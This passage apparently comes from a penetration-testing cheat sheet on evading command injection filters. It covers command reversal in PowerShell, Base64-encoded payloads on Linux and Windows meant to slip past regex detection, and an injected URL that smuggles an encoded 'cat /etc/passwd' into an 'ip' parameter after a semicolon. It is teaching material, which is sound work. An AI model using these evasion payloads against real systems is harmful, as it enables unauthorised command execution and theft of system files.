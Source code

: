 {% tab title="Windows (PowerShell)" %}
```powershell
# reverse command
$ "whoami"[-1..-20] -join ''
imaohw
# execute command
$ iex "$('imaohw'[-1..-20] -join '')"
x7331
```
{% endtab %}
{% endtabs %}

### Encoding

Encoding the payload can be useful for simple pattern-matching evasion. For instance, regex patterns will have a hard time identifying bash commands in the encoded string. This is also useful if the server URL-encodes certain characters.

{% tabs %}
{% tab title="Linux" %}
```bash
# encode the payload
$ echo "whoami" | base64
d2hvYW1pCg==
# inject the encoded payload using command substitution
$(echo d2hvYW1pCg== | base64 -d)
x7331
```
{% endtab %}

{% tab title="Windows" %}
{% code overflow="wrap" %}
```powershell
# encode the command
$ [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
dwBoAG8AYQBtAGkA
# execute the command
$ iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
x7331
```
{% endcode %}
{% endtab %}
{% endtabs %}

We can also combine Base64-encoding with command substitution (` `` `).

```bash
$ echo "cat /etc/passwd" |base64
Y2F0IC9ldGMvcGFzc3dkCg==
```

{% code overflow="wrap" %}
```bash
# injected payload
http://ci-sandbox/php/blocklisted.php?ip=127.0.0.1;`echo%20%22Y2F0IC9ldGMvcGFzc3dkCg==%22%20|base64%20-d`
```
{% endcode %}
